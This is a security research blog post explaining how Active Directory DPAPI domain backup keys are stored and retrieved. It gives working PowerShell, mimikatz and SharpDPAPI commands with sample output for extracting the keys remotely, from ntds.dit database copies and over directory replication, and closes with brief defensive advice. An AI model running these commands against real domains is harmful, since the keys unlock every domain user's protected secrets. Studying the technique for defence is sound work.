 ```yaml
---
ref: dpapi-backup-keys
title: 'Retrieving DPAPI Backup Keys from&nbsp;Active Directory'
date: 2015-10-26T22:51:00+00:00
layout: post
lang: en
image: /assets/images/backupkeys_storage.png
permalink: /en/retrieving-dpapi-backup-keys-from-active-directory/
tags:
    - 'Active Directory'
    - DPAPI
    - PowerShell
    - Security
---
```


The Data Protection API (DPAPI) is&nbsp;used by&nbsp;several components of&nbsp;Windows to&nbsp;securely store passwords, encryption keys and&nbsp;other sensitive data. When&nbsp;DPAPI is&nbsp;used in&nbsp;an&nbsp;Active Directory domain environment, a&nbsp;copy of&nbsp;user’s master key is&nbsp;encrypted with&nbsp;a&nbsp;so-called DPAPI Domain Backup Key that&nbsp;is&nbsp;known to&nbsp;all domain controllers. Windows Server 2000 DCs use a&nbsp;symmetric key and&nbsp;newer systems use a&nbsp;public/private key pair. If&nbsp;the&nbsp;user password is&nbsp;reset and&nbsp;the&nbsp;original master key is&nbsp;rendered inaccessible to&nbsp;the&nbsp;user, the&nbsp;user’s access to&nbsp;the&nbsp;master key is&nbsp;automatically restored using the&nbsp;backup key.

<!--more-->

## The&nbsp;Mimikatz Method

Benjamin Delpy has already found a&nbsp;way to&nbsp;extract these backup keys from&nbsp;the&nbsp;LSASS of&nbsp;domain controllers. It is implemented in the `lsadump::backupkeys` mimikatz command and&nbsp;it&nbsp;even&nbsp;works remotely:

![Mimikatz DPAPI Backup Keys](../../assets/images/mimikatz_backupkeys.png)

## DSInternals Implementation

This attack is also implemented in my DSInternals PowerShell module:

```powershell
Get-LsaBackupKey -ComputerName dc01.contoso.com |
    Save-DPAPIBlob -DirectoryPath '.\Output'
```

## SharpDPAPI Implementation

The same sttack technique has also been implemented in [GhostPack](https://github.com/GhostPack):

```batchfile
SharpDPAPI.exe backupkey
```

## Key Storage

I have taken Benjamin’s research one step further and&nbsp;I&nbsp;can&nbsp;now&nbsp;extract these keys directly from&nbsp;the&nbsp;Active Directory database, where&nbsp;they are&nbsp;physically stored:

![Backup Key Storage](../../assets/images/backupkeys_storage.png)

The keys are&nbsp;stored in&nbsp;the&nbsp;**currentValue** attribute of&nbsp;objects whose names begin with&nbsp;**BCKUPKEY** and&nbsp;are&nbsp;of&nbsp;class **secret**. The&nbsp;**BCKUPKEY_PREFERRED Secret** and&nbsp;**BCKUPKEY_P Secret** objects actually only contain GUIDs of&nbsp;objects that&nbsp;hold the&nbsp;current modern and&nbsp;legacy keys, respectively.

Furthermore, the&nbsp;currentValue attribute is&nbsp;encrypted using BootKey (aka SysKey) and&nbsp;is&nbsp;never sent through LDAP. After decrypting it, we will get a self-signed certificate with no subject:

![DPAPI Backup Key](/assets/images/dpapi_backup_key.png)

## The&nbsp;Database Dump Method

The **Get-BootKey**, **Get-ADDBBackupKey** and&nbsp;**Save-DPAPIBlob** cmdlets from&nbsp;my [DSInternals PowerShell Module](/en/projects/) can&nbsp;be&nbsp;used to&nbsp;retrieve the&nbsp;DPAPI Domain Backup Keys from&nbsp;ntds.dit files:

```powershell
# We need to get the BootKey from the SYSTEM registry hive first:
Get-BootKey -SystemHiveFilePath 'C:\IFM\registry\SYSTEM'

<#
Output:

41e34661faa0d182182f6ddf0f0ca0d1

#>

# Now we can decrypt the DPAPI backup keys from the database:
Get-ADDBBackupKey -DBPath 'C:\IFM\Active Directory\ntds.dit' `
                  -BootKey 41e34661faa0d182182f6ddf0f0ca0d1 |
    Format-List

<#
Output:

Type : LegacyKey
DistinguishedName : CN=BCKUPKEY_7882b20e-96ef-4ce5-a2b9-3efdccbbce28 Secret,CN=System,DC=Adatum,DC=com
RawKeyData : {77, 138, 250, 6...}
KeyId : 7882b20e-96ef-4ce5-a2b9-3efdccbbce28

Type : PreferredLegacyKeyPointer
DistinguishedName : CN=BCKUPKEY_P Secret,CN=System,DC=Adatum,DC=com
RawKeyData : {14, 178, 130, 120...}
KeyId : 7882b20e-96ef-4ce5-a2b9-3efdccbbce28

Type : RSAKey
DistinguishedName : CN=BCKUPKEY_b1c56a3e-ddf7-41dd-a5f3-44a2ed27a96d Secret,CN=System,DC=Adatum,DC=com
RawKeyData : {48, 130, 9, 186...}
KeyId : b1c56a3e-ddf7-41dd-a5f3-44a2ed27a96d

Type : PreferredRSAKeyPointer
DistinguishedName : CN=BCKUPKEY_PREFERRED Secret,CN=System,DC=Adatum,DC=com
RawKeyData : {62, 106, 197, 177...}
KeyId : b1c56a3e-ddf7-41dd-a5f3-44a2ed27a96d

#>

# In most cases, we just want to export these keys to the file system:
Get-ADDBBackupKey -DBPath 'C:\IFM\Active Directory\ntds.dit' `
                  -BootKey 41e34661faa0d182182f6ddf0f0ca0d1 |
    Save-DPAPIBlob -DirectoryPath .\Keys

# New files should have been created in the Keys directory:

(dir .\Keys).Name

<#
Output:

ntds_capi_b1c56a3e-ddf7-41dd-a5f3-44a2ed27a96d.pfx
ntds_legacy_7882b20e-96ef-4ce5-a2b9-3efdccbbce28.key

#>
```

Note that&nbsp;mimikatz would name these files similarly.

## The&nbsp;DRSR Method

The same result can&nbsp;be&nbsp;achieved by&nbsp;communicating with&nbsp;the&nbsp;Directory Replication Service using the&nbsp;**Get-ADReplBackupKey** cmdlet:

```powershell
Get-ADReplBackupKey -Domain 'Adatum.com' -Server LON-DC1 |
    Save-DPAPIBlob -DirectoryPath .\Keys
```

## Defense

I am already starting to&nbsp;repeat myself:

- Restrict access to&nbsp;domain controller backups.
- Be&nbsp;cautious when&nbsp;delegating the&nbsp;*Replicating Directory Changes All* right.
